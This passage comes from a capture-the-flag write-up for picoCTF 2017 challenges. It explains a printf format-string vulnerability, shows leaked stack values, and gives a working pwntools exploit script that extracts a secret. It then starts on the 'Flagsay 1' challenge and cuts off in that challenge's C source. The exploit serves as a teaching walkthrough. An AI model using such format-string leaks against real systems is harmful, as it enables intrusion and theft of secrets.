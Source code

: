 We see that the program is generating a random number and asking us for input, if we get the number right it prints us the flag. The vulnerability lies in:

    printf(buffer);

Since no format string is specified, we can add `%x` to our input to read from the stack. This works because, if `printf` finds format string parameters (`%x` or similar) it expects arguments after it, if no arguments are given it will just read first thing off the stack.

Since we are not sure where is `secret` written on the stack we can just specify enough `%x` to read as much as we can from the stack (keeping in mind size of `buffer`). We are going to use `12 * %08x`. so we can easier read the output.

    1)00000040.f7fc7c20.08048792.00000001.ffffdd34.552bcb3a.00000003.f7fc73c4.ffffdca0.00000000.f7e37a63.08048740.
    2)00000040.f7fc7c20.08048792.00000001.ffffdd34.aa7d05a6.00000003.f7fc73c4.ffffdca0.00000000.f7e37a63.08048740.

As we see most of the stack remains the same expect 6 byte which changes, so could that be the answer? Let's write **pwntool** script to automate this.

~~~python
from pwn import *

context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 39169)
print r.recvuntil('Give me something to say!')
payload1 = '%08x.' * 12 + '\n'
r.send(payload1)
response =  r.recvuntil('Now tell my secret in hex! Secret: ')
print response
payload2 = response.split('.')[5] + '\n'
print payload2
r.send(payload2)
print r.recvall()
r.close()
~~~

And running it, we see that our assumption is right and that we get the flag.

![Shell result of Ive Got A Secret]({static}/images/2018_7_29_Secret.png){: .img-fluid .centerimage}

## 2. Flagsay 1

>    I heard you like flags, so now you can make your own! Exhilarating! Use [flagsay-1](https://webshell2017.picoctf.com/static/63c03a01d0f31a6c8ce7301d5c4005e5/flagsay-1)! [Source](https://webshell2017.picoctf.com/static/63c03a01d0f31a6c8ce7301d5c4005e5/flagsay-1.c). Connect on shell2017.picoctf.com:37742.

Let’s look at the source code:

~~~c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FIRSTCHAROFFSET 129
#define LINELENGTH 35
#define NEWLINEOFFSET 21
#define LINECOUNT 6

#define BUFFLEN 1024

char flag[] = "               _                                        \n"
	          "              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     \n"
	          "             //                                   /     \n"
~~~